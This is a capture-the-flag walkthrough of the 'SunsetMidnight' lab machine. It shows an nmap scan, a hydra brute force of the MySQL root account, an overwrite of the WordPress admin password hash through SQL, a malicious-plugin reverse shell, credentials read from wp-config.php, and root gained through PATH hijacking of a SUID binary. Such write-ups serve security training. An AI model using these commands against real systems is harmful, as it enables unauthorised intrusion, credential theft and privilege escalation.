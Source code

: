 # SunsetMidnight

## Nmap

```
sudo nmap 192.168.104.88 -p- -sS -sV   

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
Add the machine IP to map to sunset-midnight in /etc/hosts.
{% endhint %}

After making the above changes when browsing to port 80 we come to a Wordpress page.

![http://sunset-midnight/](<../../../.gitbook/assets/image (1126).png>)

After scanning with WPScan I was unable to proceed with the found admin accout. Instead turning our attention to MySQL which we find does not block remote connections we can begin to brute force the root account.

```
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.104.88  
```

![](<../../../.gitbook/assets/image (1127).png>)

We can then log into MySQL with the discovered credentials:

```
mysql -u root -p -h 192.168.104.88  
```

![](<../../../.gitbook/assets/image (1128) (1).png>)

From here we can list databases then select the Wordpress database and extract information from the wp\_users table.

```
show databases;
use wordpress_db;
show tables;
select * from wp_users;
```

![](<../../../.gitbook/assets/image (1129) (1).png>)

We now have the admin hash of: `$P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/` I tried cracking with `hashcat` using rockyou.txt and had no lucky. Luckily we are root on this session so we can actually update the table and change the password to something that we know.

The following website can be used to generate a has for wordpress: [https://www.useotools.com/wordpress-password-hash-generator/output](https://www.useotools.com/wordpress-password-hash-generator/output).

After doing so run the commands below in MySQL to update the password for the admin account.

```
update wp_users
set user_pass = '$P$BDAEMk6QF.8MP6zmnILMLvQpLnNxw5.';
```

![](<../../../.gitbook/assets/image (1130).png>)

We can then move to the /wp-admin/ directory on the webserver and login with our new credentials.

![http://sunset-midnight/wp-admin/](<../../../.gitbook/assets/image (1131).png>)

From here we are going to upload a malicious plug-in that will give us a reverse shell. We will be using wordpwn.py to achieve this: [https://github.com/wetw0rk/malicious-wordpress-plugin](https://github.com/wetw0rk/malicious-wordpress-plugin).

After download run the scripts as per instructions on the GitHub page and then once created upload the malicious.zip over at: [http://sunset-midnight/wp-admin/plugin-install.php](http://sunset-midnight/wp-admin/plugin-install.php).

Once uploaded activate the plug-in on the plug-in page then browse to the following to execute: [http://sunset-midnight/wp-content/plugins/malicious/wetw0rk\_maybe.php](http://sunset-midnight/wp-content/plugins/malicious/wetw0rk\_maybe.php).

![](<../../../.gitbook/assets/image (1133).png>)

We are now 'www-data'.

![](<../../../.gitbook/assets/image (1134) (1).png>)

Manually enumerating the target machine we know Wordpress is installed and as such the wp-config.php exists.

![](<../../../.gitbook/assets/image (1135).png>)

Reading the contents of wp-config.php gives us credentials for the user jose.

![](<../../../.gitbook/assets/image (1136).png>)

Whilst the password does look like a MD5 its important to note that this file the credentials are normally stored in plaintext. Given this we can attempt to switch to the jose user with these.

![](<../../../.gitbook/assets/image (1137).png>)

From here wen can use `ssh-keygen` to create a RSA key so we can then sign in with SSH for a much more usable shell.

```
ssh-keygen -t RSA
```

Keep hitting enter until the key is generated. Once done so copy the contents of the key from `/home/jose/.ssh/id_rsa` over to the attacking machine.

![](<../../../.gitbook/assets/image (1138).png>)

We can then use the following command to set the correct permissions on key on the attacking machine:

```
sudo chmod 600 id_rsa
```

Then login as jose over SSH.

```
ssh -i id_rsa jose@sunset-midnight
```

![](<../../../.gitbook/assets/image (1139).png>)

Running `linpeas` on the target shows the binary /usr/bin/status has the SUID bit set.

![](<../../../.gitbook/assets/image (1140).png>)

Running strings on the binary

![](<../../../.gitbook/assets/image (1141).png>)

Looks like the binary is trying to run 'service' without the full path of the binary. Knowing this we can create a malicious service binary and export the path so our malicious binary is executed first.

In the home directory of jose run the following:

```
touch service
echo '/bin/sh' > service
chmod 755 service
```

Once completed export the new path where /home/jose: is the starting path.

```
PATH=/home/jose:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

Once completed execute status and we should land a root shell.

```
/usr/bin/status
```

![](<../../../.gitbook/assets/image (1142).png>)
